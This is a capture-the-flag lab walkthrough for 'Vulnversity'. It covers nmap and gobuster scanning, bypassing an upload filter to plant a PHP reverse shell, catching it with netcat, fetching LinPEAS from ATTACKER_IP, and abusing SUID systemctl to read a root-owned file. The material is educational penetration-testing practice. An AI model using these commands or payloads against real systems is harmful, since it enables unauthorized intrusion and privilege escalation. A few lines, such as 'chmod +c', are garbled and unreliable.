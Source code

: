 # Vulnversity
## Reconnaissance

| Nmap Flag | Description
| --- | ---
| `-sV` | Attempt to determine version of running services.
| `-p <x>` or `-p-` | Port scan for port <x> or scan all ports.
| `-Pn` | Disable host discovery and scan for open ports.
| `-A` | Enable OS and version detection, executes in-built scripts for further examination.
| `-sC` | Scan with default Nmap scripts.
| `-v` | Verbose mode.
| `-sU` | UDP port scan.
| `-sS` | TCP SYN port scan.

## Locating Directories Using [Gobuster](https://github.com/OJ/gobuster)
* Brute forces URIs (directories and files), DNS subdomains, and virtual host names.
* Install Gobuster on Kali.
```
sudo apt-get install gobuster
```
* Requires wordlist to identify if public directory is available.
* Kali `/usr/share/wordlists` folder contains many wordlists.

| Gobuster Flag | Description
| --- | ---
| `dir` | Use directory/file bruteforcing.
| `-e` | Prints full URLs to the console.
| `-u` | Target URL.
| `-w` | Path to wordlist.
| `-U` and `-P` | Username and password for basic authentication.
| `-p <x>` | Proxy to use for requests.
| `-c <http cookies>` | Specify cookie for simulatin authentication.

## Compromise the Webserver
* [Download reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).
* Upload to `http://TARGET_IP:3333/internal/`.
  * PHP file extensions blocked by upload form.
* Fuzz upload form using BurpSuite to identify which extensions are not blocked.
### Use the Intruder to automate customised attacks.
#### 1. Make a wordlist of extensions.
```
printf "php\nphp3\nphp4\nphp5\nphtml" >  phpext.txt
```
#### 2. Intercept browser traffic with BurpSuite.
#### 3. Send captured request to Intruder.
* "Sniper" attack type.
* "Payload Positions" > find the filename > prefix and suffix `§` to extension.
* "Payloads" > "Payload settings" > "Load" > phptext.txt.
   * `.phtml` extensions allowed by upload form.
#### 4. Start the attack.
* Edit `php-reverse-shell.php`.
   * Change IP to attacking machine.
   * Rename file to `php-reverse-shell.phtml`.
* Reverse shell is called on target.
* Forces a connection to listening attacker.
```
mv php-reverse-shell.php php-reverse-shell.phtml
```
#### 5. Listen to incoming connections using netcat.
```
nc -lvnp 1234
```
#### 6. Upload shell to webserver.
#### 7. Execute payload.
* Navigate to `http://TARGET_IP:3333/internal/uploads/php-reverse-shell.phtml`
#### 8. Connection established on Netcat session.
```
Connection from 10.10.240.196 33302 received!
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 10:00:44 up  1:34,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
## Privilege Escalation
* Linux SUID (set owner userId upon execution) is special type of file permission.
* Gives temporary permissions to a user to run binary with permission of file owner.
  * E.g. `/usr/bin/passwd` binary file to change user password has SUID bit set.
    * User needs to be able to write to shadowers file but only root has access by default.
    * User account has root privileges to make the right changes.
```
4  2  1  4  2  1  4  2  1
r  w  x  r  w  x  r  w  x
SUID  V     V     V
r  w  s  r  w  x  r  w  x
-------
 User
```
#### 1. Upgrade to TTY shell using Python.
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
#### 2. Search for all SUID files.
```
find / -user root -perm -4000 -print 2>/dev/null
```
  * `-user root` is file owner.
  * `-perm 4000` specifies permissions.
#### 3. Use [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) scripts to identify SUID vulnerabilties.
```
mkdir /home/kali/linpeas
cd /home/kali/linpeas
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```
#### 4. Serve payload through python webserver.
```
python3 -m http.server
```
#### 5. Download LinPEAS to target.
* Ensure that target directory has write permissions (`/tmp`).
* Write LinPeas output to txt file.
```
wget http://ATTACKER_IP:8000/linpeas.sh
chmod +c ./linpeas.txt
./linpeas.sh -a > linpeas.txt
```
#### 6. Read SUID part of linpeas.txt file.
```
grep -A 50 "SUID - Check easy privesc, exploits and write perms" ./linpeas.txt
```
   * `-A 50` means list 50 lines after the search term "SUID - Check easy privesc, exploits and write perms".
* LinPEAS shows /bin/systemctl highlighted in red/yellow signifying a 95% privilege escalation vector.
#### 7. Browse to [GTFOBins](https://gtfobins.github.io)
  * Select `SUID`'
  * `CTRL+F` and search for `systemctl`.
> If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.
#### 8. `cd /tmp` as this directory is writable.
#### 9. Create local SUID copy of bash binary and run it to maintain elevated (root) privileges.
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.PzHSya3VD0.service to /tmp/tmp.PzHSya3VD0.service.
/bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.X6k1yvp1ii.service to /tmp/tmp.X6k1yvp1ii.service. 
```
#### 10. `cat /tmp/output` to read file that contains contents of restricted `/root/root.txt` file.
